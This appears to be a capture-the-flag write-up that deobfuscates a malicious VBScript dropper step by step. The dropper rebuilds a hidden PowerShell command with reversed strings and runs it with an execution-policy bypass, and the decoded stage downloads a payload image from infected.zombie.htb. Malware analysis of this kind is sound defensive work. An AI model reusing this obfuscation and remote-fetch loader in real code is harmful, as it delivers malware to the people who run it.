 This file contains a large amount of obfuscated data. Some variables that are never reused are removed so that we can better understand the script:
```
OBFUSCATED  = "Jem9tYmllcBpem9tYmllcG0em9tYmllcYQBnem9tY...
OBFUSCATED = Replace( OBFUSCATED, CpBIhAVXkwtYAYiRfMTeXHopPLyLoHhHtDaysxBQVjyz...

COMMAND = COMMAND & StrReverse("xujWO$;")
COMMAND = COMMAND & StrReverse("ys[ = d")
COMMAND = COMMAND & StrReverse("eT.mets")
COMMAND = COMMAND & StrReverse("ocne.tx")
COMMAND = COMMAND & StrReverse("::]gnid")
COMMAND = COMMAND & StrReverse("edocinU")
COMMAND = COMMAND & StrReverse("rtSteG.")
COMMAND = COMMAND & StrReverse("gni")

COMMAND = COMMAND & "([ZjJMuHOyfLrFRZQLRAMTQIJoIsDKygFhOhIUsFhmYGpMtHYXYriuBkzrHlGxHgtwOVBcJpaoSYXw...
COMMAND = COMMAND & "wDRSCDEGplfmoDjPrgYmdejlOxRRTwXXqUxtEpkdbzFGZtRYqCBgefVWmDfUZnbLpaQQTIAMcveTJe...

...

COMMAND = Replace(COMMAND, "TQIJoIsDKygFhOhIUsFhmYGpMtHYXYriuBkzrHlGxHgtwOVBcJpaoSYXwYihoBDwDRSCDEGplfmoDjPrgYmdejlOxRRTwXXqUxtEpkdbzFGZtRYqCBgefVWmDfUZnbLpaQQTIAMcveTJekTjNZjNfCJawQsxvvTLaqAKZUciNlCQgVQFoKfnXYUTpOaNcbqsaDpdjNnD", "e")
COMMAND = Replace(COMMAND, "YdiovnqyjTDXTaRYzrOrPtPSPEkGydtHpsDzuMmtvwWDgfonHmlbiWofBzfzWwPCyghETBLJtSXhZTteJymwidWxlLmZRoJmxzHcFtMNHFLqYxcpgFpHeIhwiWILHovZEyZuwgHbTGwMVrwwjpWojiuZPXGPnkWzSsIhWOckYJSLGuGYaBQbdomrjcmnDFZVNWqVGjwx", "o")
COMMAND = Replace(COMMAND, "ZjJMuHOyfLrFRZQLRAMejVORkrLmnSCXRqVNBLINqTtavYGXNKmWkKgLUKpRuknZoStcKiPTtlSLTzbLLKnqBLvCxwwfYDUEJVRbZAqnPXJFfwKgaKoaTyXvWlktaXauDNHvgmoqbgdjOoBAwieAxhmIQTQGWVjowvkJpSMpEPnfitrQGRfXaVLxUPAmLRGwRAEgjqTg", "s")
COMMAND = Replace(COMMAND, "SjnKkClLMbtbUbEphNmdQTEXfhFHyXgQvKXvohDxuaGQdsTVSnrqEPEsLAdRQxDbDqFawzwRYThIFGZFjDIAEWMnWgxyLATxLKfXLJGtQgEqlXlrEBLbufduqlrgvcKaQAuxxmISiInqdFxetxSvuwcnvTQZlRnsnrezMZamRBgFTQGJcmEpKQISyYXRLVbdBQEdwdle", "t")
COMMAND = Replace(COMMAND, "VXIxBYQSKDryEAULIfGtTdegkaavJdWnPtXZlxmbyRZbRztkgJXWSKYsPfdAvLjUlqQqikfohaKubLssSrhTyIatsqjlfjIBXVfmwFkVqYIyCtYmjprSExKIzpcAdoVBTPRwuxasqmXvYvnHQlXgZBCYBqolLMBaNbIspDogrWvPdQlBBtHAGkUozkbMEJZIHTuiLIxX", "a")
COMMAND = Replace(COMMAND, "COMMANDdAuCBFCwdFvnAC", "A")

COMMAND = COMMAND & StrReverse("'DxujWO$ dnammoc- eliforPoN- ssapyb ycilopnoitucexe- neddih elytswodniw- exe.llehsrewop")
script_object.Run "powershell -command " & COMMAND, 0, False
```
After doing the required replacements in the code we get something like this:
```ps
$Codigo = 'JABpAG0AYQBnAGUAVQByAGwAIAA9ACAAJwBoAHQAdABwADoALwAvAGkAbgBmAGUAYwB0AGUAZAAuAHoAbwBtAGIAaQBlAC4AaAB0AGIALwBXAEoAdgBlAFgANwAxAGEAZwBtAE8AUQA2AEcAdwBfADEANgA5ADgANwA2ADIANgA0ADIALgBqAHAAZwAnADsAJAB3AGUAYgBDAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ADsAJABpAG0AYQBnAGUAQgB5AHQAZQBzACAAPQA ...SNIP... WAHQAUABYAFIAcwBZAFQAOQAwAGUASABRAHUAYwBtAFYAbQBjADIANQBoAGMAbgBRAHYAYgB5ADkAdABiADIATQB1AGQARwA5AHcAYwAzAEIAdwBZAFMANQBtAE8AVABOAGoATgBpADEAbgBiAG0AbAByAFkAMgBGAG8ATAAyAEkAdgBNAEgAWQB2AGIAVwA5AGoATABuAE4AcABjAEcARgBsAGIARwBkAHYAYgAyAGMAdQBaAFcAZABoAGMAbQA5ADAAYwAyAFYAegBZAFcASgBsAGMAbQBsAG0ATAB5ADgANgBjADMAQgAwAGQARwBnAD0AJwAgACwAIAAnAGQAZgBkAGYAZAAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABmAGQAZgAnACAALAAgACcAZABhAGQAcwBhACcAIAAsACAAJwBkAGUAJwAgACwAIAAnAGMAdQAnACkAKQA='

powershell.exe -windowstyle hidden -executionpolicy bypass -NoProfile -command [system.Text.encoding]::Unicode.GetString([system.Convert]::Frombase64string($codigo))
```
The Base64 data decodes to:
```js
$imageUrl = 'http://infected.zombie.htb/WJveX71agmOQ6Gw_1698762642.jpg';
$webClient = New-Object System.Net.WebClient;$imageBytes = $webClient.DownloadData($imageUrl);
$imageText = [System.Text.Encoding]::UTF8.GetString($imageBytes);
$startFlag = '<<BASE64_START>>';
$endFlag = '<<BASE64_END>>';
```